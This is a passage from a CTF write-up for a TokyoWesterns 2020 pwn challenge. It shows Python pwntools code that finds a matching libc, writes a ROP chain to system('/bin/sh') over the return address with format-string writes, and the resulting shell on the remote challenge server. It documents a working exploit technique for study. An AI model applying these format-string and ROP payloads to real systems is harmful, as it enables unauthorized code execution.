 > This is something new I'm experimenting with.

This code will search the libc-database and return an array of matches; through trial and error the 5th (see `libc_index = 5` above) is the libc that works with this challenge.

> This was actually unnecessary since a fully updated Ubuntu 18.04 container has the correct version installed.  But, I wanted to test this method.


### Get a shell, get the flag

```python
offset = 6
rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

payloads = [pop_rdi + 1,pop_rdi,libc.search(b'/bin/sh').__next__(),libc.sym.system]
for i in range(len(payloads)):
    payload=fmtstr_payload(offset,{stack_ret_addr+8*i:payloads[i]})
    p.sendline(payload)
    null = payload.find(b'\x00')
    p.recvuntil(payload[null-2:null])

p.sendlineafter('> ','q')
p.interactive()
```

The `payloads` array is standard CTF fare.  The for loop uses format-string exploits to write out the payload starting from the return address in the stack.  From there is just `q` to exit `main` and run our exploit.

> The following lines capture all the format-string exploit garbage for pretty screen grabs (for write-ups):
> 
> ```python
> null = payload.find(b'\x00')
> p.recvuntil(payload[null-2:null])
> ``` 

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/twctf2020/nothing_more_to_say_2020/nothing'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to pwn02.chal.ctf.westerns.tokyo on port 18247: Done
[*] stack_ret_addr: 0x7ffc771b63b8
[*] __libc_start_main_231: 0x7fcde34edb97
[*] __libc_start_main: 0x7fcde34edab0
[*] getting: https://libc.rip/download/libc6_2.27-3ubuntu1.2_amd64.so
[*] '/pwd/datajerk/twctf2020/nothing_more_to_say_2020/libc6_2.27-3ubuntu1.2_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7fcde34cc000
[*] Loaded 14 cached gadgets for './nothing'
[*] Switching to interactive mode
$ id
uid=11901 gid=11000(nothing) groups=11000(nothing)
$ ls -l
```